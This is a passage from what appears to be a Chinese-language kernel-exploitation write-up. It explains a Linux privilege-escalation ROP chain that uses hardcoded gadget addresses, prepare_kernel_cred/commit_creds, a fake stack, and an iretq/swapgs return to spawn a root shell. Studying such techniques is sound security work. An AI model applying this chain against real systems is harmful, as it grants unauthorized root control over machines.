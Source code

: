 ```python
for line in f.readlines():
        target_str, gadget = line.split(':')
        target_addr = int(target_str, 16)

        # check alignment
        if target_addr % 8 != 0:
                continue

        offset = (target_addr - base_addr) / 8
        print 'offset =', (1 << 64) + offset
        print 'gadget =', gadget.strip()
        print 'stack addr = %x' % (target_addr & 0xffffffff)
        break
```
刚开始不懂为什么那个offset要进行1<<64这个骚操作，后来注意到offset是unsigned long，但是好像不要1<<64也没多大关系.

stack_addr是需要mmmap的用户空间地址。因为这个gadget中的ret后有操作数，所以我们需要在rop chain中做适当的改变。
```c
	fake_stack = (unsigned long *)(stack_addr);
	*fake_stack ++= 0xffffffff81016bc5UL; /* pop %rdi; ret */

	fake_stack = (unsigned long *)(stack_addr + 0x14ff + 8);

	*fake_stack ++= 0x0UL;                /* NULL */ 
	*fake_stack ++= 0xffffffff81094630UL; /* prepare_kernel_cred() */

	*fake_stack ++= 0xffffffff810e00d1UL; /* pop %rdx; ret */
	//*fake_stack ++= 0xffffffff81095190UL; /* commit_creds() */
	*fake_stack ++= 0xffffffff81094356UL; // commit_creds() + 2 instructions

	*fake_stack ++= 0xffffffff810364bfUL; /* mov %rax, %rdi; call %rdx */
```
至于为什么要把commit_creds的地址后移两个指令。因为当执行完commit_creds后，内核控制流就转移到call rdx的后一条指令了，但是我们还需要在rop chain中执行必要的指令。我们看看commit_creds函数的汇编代码：
```shell                
gdb-peda$ x/10i 0xFFFFFFFF81094350
   0xffffffff81094350:	call   0xffffffff8173da00
   0xffffffff81094355:	push   rbp
   0xffffffff81094356:	mov    rbp,rsp
   0xffffffff81094359:	push   r13
   0xffffffff8109435b:	mov    r13,QWORD PTR gs:0xb840
   0xffffffff81094364:	push   r12
   0xffffffff81094366:	push   rbx
   0xffffffff81094367:	mov    r12,QWORD PTR [r13+0x4b0]
   0xffffffff8109436e:	cmp    r12,QWORD PTR [r13+0x4b8]
   0xffffffff81094375:	jne    0xffffffff8109454f
```
所以我们直接跳过push rbp指令，这样当函数返回时就会把call指令压入的返回地址pop，从而继续执行我们得rop chain。很骚的操作~
执行完上述的rop chain，我们需要做的事返回用户空间执行system("/bin/sh")，这时就需要用到iretq(64 bit)操作了。我们只需要在stack上布置一个trap_frame即可。
```
|----------------------|
| rip                  |<== low mem
|----------------------|
| cs                   |
|----------------------|
| eflags               |      
|----------------------|
| rsp                  |
|----------------------|
| ss                   |<== high mem
|----------------------|
```
最后需要注意的是，在64bit的系统中执行iret指令前需要执行swapgs指令。该指令通过用一个MSR中的值交换GS寄存器的内容。在进入内核空间例行程序(例如系统调用)时会执行swapgs指令以获取指向内核数据结构的指针，因此在返回用户空间之前需要一个匹配的swapgs。